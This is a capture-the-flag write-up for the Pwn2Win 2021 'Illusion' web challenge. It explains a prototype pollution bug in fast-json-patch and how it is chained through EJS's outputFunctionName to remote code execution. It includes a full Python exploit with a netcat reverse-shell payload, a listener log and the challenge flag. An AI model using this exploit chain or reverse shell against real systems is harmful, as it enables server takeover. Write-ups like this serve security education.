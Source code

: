 # Pwn2Win 2021 - Illusion

## Challenge Description

> #### **Illusion - web - 152 pts**
>
> Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will desactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behavior.
>
> **Server:** nc illusion.pwn2win.party 1337

{% file src="../../../.gitbook/assets/illusion.tar.gz" caption="Attachment" %}

## Writeup

### First look

The challenge's attachment contains a source code of a website written in NodeJS.

```javascript
❯ tree .
.
├── Dockerfile
├── entrypoint.sh
├── flag.txt
├── readflag
└── src
    ├── index.js
    ├── package-lock.json
    ├── package.json
    ├── static
    │   └── style.css
    └── templates
        └── index.ejs

3 directories, 9 files
```

### Finding the bug

There is only a single javascript code file, so knowing where to look for the bug located is quite straightforward. The other files – e.g. `Dockerfile`, `entrypoint.sh` – do not contain anything interesting.

{% code title="src/index.js \(partial\)" %}
```javascript
let services = {
    status: "online",
    cameras: "online",
    doors: "online",
    dome: "online",
    turrets: "online"
}

app.get("/", async (req, res) => {
    const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
    res.end(html)
})
```
{% endcode %}

The `index.js` contains a web service using `express` and `ejs` to basically shows display a formatted javascript object `service` into table format on frontend.

![The website](../../../.gitbook/assets/image%20%2825%29.png)

There is an interesting API function `/change_status` that allows us to replace the property in JS object `service` to our inputted value using a library `fast-json-patch`. Something noteworthy is: there is no validation at all on the inputted values. This allow us to provide object `{}` instead of string.

{% code title="src/index.js \(partial\)" %}
```javascript
const jsonpatch = require('fast-json-patch')

app.post("/change_status", (req, res) => {

    let patch = []

    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });

    jsonpatch.applyPatch(services, patch)

    if ("offline" in Object.values(services)){
        services.status = "offline"
    }

    res.json(services)
})
```
{% endcode %}

Looking at the `fast-json-patch` GitHub page, there is an open [pull request](https://github.com/Starcounter-Jack/JSON-Patch/pull/262) fixing a prototype pollution bug. At this point, we already knows the bug, the rest is just to craft the exploit for RCE.

### Exploit

> `outputFunctionName` Set to a string \(e.g., `'echo'` or `'print'`\) for a function to print output inside scriptlet tags. -- [https://ejs.co/](https://ejs.co/)

From quick googling with keywords _"prototype pollution ejs"_, we can know that we can pollute prototype property `outputFunctionName` in EJS to get RCE. So the idea is:

* Using API, set the `service.cameras` property into object `{}`.
* Using API, set the `service.cameras.constructor.prototype.outputFunctionName` to our RCE reverse shell payload.
* In our VPS, Setup listener using netcat for incoming reverse shell.
* GET the website to trigger EJS to execute our payload.
* Reverse shell obtained, then read flag.

```python
import requests

'''
# inside vps:

root@esper:~# nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 35.223.81.55 37939

whoami
guest

./readflag
CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
'''

url = 'http://illusion.pwn2win.party:14473'
password = 'jfuqpriqtshvbabn' # provided from the challenge 

payload = "x;global.process.mainModule.require('child_process').exec('sh -c \"nc 1.2.3.4 8888 -e /bin/sh\"');x"

session = requests.Session()
session.auth = ('admin', password)
session.post(f'{url}/change_status', json={'cameras': {}})
session.post(f'{url}/change_status', json={
    'cameras/constructor/prototype/outputFunctionName': payload
})
session.get(url)
```

## Flag

`CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}`

